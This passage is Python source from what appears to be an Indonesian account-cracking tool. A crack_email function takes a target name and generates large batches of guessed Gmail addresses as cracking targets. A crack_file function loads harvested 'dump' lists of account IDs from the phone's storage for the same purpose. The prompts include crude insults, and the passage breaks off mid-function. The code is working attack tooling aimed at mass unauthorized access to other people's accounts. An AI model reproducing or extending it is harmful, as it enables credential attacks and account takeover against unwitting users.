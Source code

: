   
 #-----------------[ CRACK EMAIL ]-----------------# 
 def crack_email(): 
         rc = random.choice 
         rr = random.randint 
         xc = [" ranti"," rindu"," duda"," janda"," montok"," tepos"," caca"," cantik"," ganteng"," jancok"," batam"," papua"," crish"," erma"," yanti"] 
         blk = ['tika','milla','brayen','gabriel','lala','cans','nayla','pandi','miftah','kurnia','sinta','nadia','gadis','anggun','amoy','anna'] 
         global ok , cp 
         cetak(nel(f'Masukan Nama Email Yang Ingin Di Crack, Contoh : Andi, Dian, Putri, Aditya',width=90,padding=(0,5),style=f"bold white")) 
         nama = console.input(f' [+] Masukan Nama Target : ') 
         if ',' in str(nama): 
                 print(f" [+] Masukan Nama, Jangan Kosong Ngab") 
                 time.sleep(3);exit() 
         cetak(nel(f'Max 5000 Idz , Dan Hanya Bisa Menggunakan Metode Reguler Dan Async',width=90,padding=(0,5),style=f"bold white")) 
         jumlah = console.input(f' [+] Total Dump : ') 
         for xyz in range(int(jumlah)): 
                 A = nama 
                 B = [f'{str(rc(xc))}',f'{str(rr(0,10000))}',f'{str(rc(blk))}'f'{str(rc(xc))}{str(rr(0,10000))}',f'{xyz}',f'{str(rc(blk))}{str(rr(0,10000))}',f'{str(rc(xc))}{str(rc(blk))}'] 
                 C = f'@gmail.com' 
                 D = f'{A}{str(rc(B))}{C}' 
                 if D in id:pass 
                 else:id.append(D+'|'+nama) 
                 if len(dump)==999999:setting() 
                 sys.stdout.write(f"\r [+] Mengumpulkan {len(id)} Idz...");sys.stdout.flush() 
                 time.sleep(0.0000003) 
         print("\r") 
         setting()         
 #-----------------[ CRACK FILE ]-----------------# 
 def crack_file(): 
         try:vin = os.listdir('/sdcard/DUMP-FILE/') 
         except FileNotFoundError: 
                 print(' [+] File Tidak Ditemukan ') 
                 time.sleep(2) 
                 exit() 
         if len(vin)==0: 
                 print(' [+] Kamu Tidak Memiliki File Dump ') 
                 time.sleep(2) 
                 exit() 
         else: 
                 cih = 0 
                 lol = {} 
                 for isi in vin: 
                         try:hem = open('/sdcard/DUMP-FILE/'+isi,'r').readlines() 
                         except:continue 
                         cih+=1 
                         if cih<100: 
                                 nom = ''+str(cih) 
                                 lol.update({str(cih):str(isi)}) 
                                 lol.update({nom:str(isi)}) 
                                 print(f' %s. %s [ %s Idz ]'%(nom,isi,len(hem))) 
                         else: 
                                 lol.update({str(cih):str(isi)}) 
                                 print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+x) 
                                 print(' [+] %s. %s [ %s Idz] '%(cih,isi,len(hem))) 
                 geeh = input(' [+] Pilih : ') 
                 try:geh = lol[geeh] 
                 except KeyError: 
                         print(f' [+] Pilih Yang Bener Kontol ') 
                         time.sleep(3) 